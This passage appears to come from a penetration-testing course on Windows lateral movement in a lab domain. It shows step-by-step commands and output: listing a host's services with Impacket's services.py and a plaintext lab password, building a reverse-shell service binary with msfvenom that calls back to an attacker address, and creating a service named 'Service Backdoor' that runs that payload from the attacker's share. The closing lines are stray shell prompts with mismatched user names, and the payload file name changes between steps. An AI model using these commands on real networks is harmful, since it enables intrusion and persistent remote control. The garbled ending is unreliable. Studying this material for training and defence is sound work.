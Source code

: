 ```shell
proxychains4 -q services.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 list
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Listing services available on target
                      1394ohci -                                    1394 OHCI Compliant Host Controller -  STOPPED
                         3ware -                                                                  3ware -  STOPPED
                          ACPI -                                                  Microsoft ACPI Driver -  RUNNING
                       AcpiDev -                                                    ACPI Devices driver -  STOPPED
                        acpiex -                                                Microsoft ACPIEx Driver -  RUNNING
                      acpipagr -                                       ACPI Processor Aggregator Driver -  STOPPED

...SNIP...

          WpnUserService_7a815 -                          Windows Push Notifications User Service_7a815 -  RUNNING
                          KQWG -                                                                   KQWG -  RUNNING
Total Services: 543

```

To move laterally with this tool, we can set up a new service, modify an existing one, and define a custom command to get a reverse shell.

To create a new service, instead of using the option `list` we will use `create` followed by the name of the new service `-name <serviceName>`, a display name `-display "<Service Display Name>"` and finally we specify the command we want to execute with the option `-path "cmd /c <payload>"`.

For our payload, we will use the Metasploit output option `exe-service`, which creates a service binary:

```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.207 LPORT=9001 -f exe-service -o rshell-9001s.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe-service file: 48640 bytes
Saved as: rshell-9001s.exe

```

Now, we can execute the command to create a new service:

```shell
proxychains4 -q services.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 create -name 'Service Backdoor' -display 'Service Backdoor' -path "\\\\10.10.14.207\\share\\rshell-9001.exe"
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Creating service Service Backdoor

```


[SRV02]: PS C:\Users\helen\Documents>
[SRV02.inlanefreight.local]: PS C:\Users\Leonvqz\Documents> hostname
[srv02.inlanefreight.local]: PS C:\Users\Helen\Documents>